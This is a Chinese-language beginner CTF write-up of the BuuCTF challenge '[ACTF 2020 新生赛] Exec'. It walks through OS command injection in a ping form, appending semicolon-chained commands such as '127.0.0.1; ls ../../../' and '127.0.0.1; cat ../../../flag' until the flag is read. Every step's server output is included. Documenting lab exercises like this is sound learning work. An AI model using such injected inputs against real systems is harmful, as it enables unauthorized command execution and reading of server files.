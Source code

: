 ```yaml
---
tags:
  - BuuCTF
  - 新手
  - Linux
  - 命令并行
---
```


# \[ACTF 2020 新生赛\] Exec

## 前置工作

打开靶机，看到如下画面，标题叫 `command execution`，他的页面上看他能 PING，于是我就 PING 了一下 127.0.0.1，看起来像是 Linux 系统的 PING

![](https://p.sda1.dev/13/f3becaa967e319af51db168013617399/image.png)

## 并行命令

不由得想试试看接上分号 `;` 后进行命令并行，那就先传入一个 `127.0.0.1; ls ./`，回应如下

```
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: seq=0 ttl=42 time=0.078 ms
64 bytes from 127.0.0.1: seq=1 ttl=42 time=0.106 ms
64 bytes from 127.0.0.1: seq=2 ttl=42 time=0.136 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 packets received, 0% packet loss
round-trip min/avg/max = 0.078/0.106/0.136 ms
index.php
```

貌似没有 Flag，那就再传入 `127.0.0.1; ls ../`，回应如下

```
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: seq=0 ttl=42 time=0.071 ms
64 bytes from 127.0.0.1: seq=1 ttl=42 time=0.133 ms
64 bytes from 127.0.0.1: seq=2 ttl=42 time=0.113 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 packets received, 0% packet loss
round-trip min/avg/max = 0.071/0.105/0.133 ms
html
localhost
```

还是没有 Flag，那就再试 `127.0.0.1; ls ../../`

```
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: seq=0 ttl=42 time=0.097 ms
64 bytes from 127.0.0.1: seq=1 ttl=42 time=0.137 ms
64 bytes from 127.0.0.1: seq=2 ttl=42 time=0.131 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 packets received, 0% packet loss
round-trip min/avg/max = 0.097/0.121/0.137 ms
cache
empty
lib
local
lock
log
mail
opt
run
spool
tmp
www
```

再上面就是根目录 `/` 了，只能再试试看 `127.0.0.1; ls ../../../`

```
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: seq=0 ttl=42 time=0.104 ms
64 bytes from 127.0.0.1: seq=1 ttl=42 time=0.126 ms
64 bytes from 127.0.0.1: seq=2 ttl=42 time=0.100 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 packets received, 0% packet loss
round-trip min/avg/max = 0.100/0.110/0.126 ms
bin
dev
etc
flag
home
lib
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

终于看到了一个叫 `flag` 的文件，我们尝试下去读取他 `127.0.0.1; cat ../../../flag`，得到 Flag

```
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: seq=0 ttl=42 time=0.097 ms
64 bytes from 127.0.0.1: seq=1 ttl=42 time=0.149 ms
64 bytes from 127.0.0.1: seq=2 ttl=42 time=0.123 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 packets received, 0% packet loss
round-trip min/avg/max = 0.097/0.123/0.149 ms
flag{c6000520-b03d-49c8-a628-2d26af095af7}
```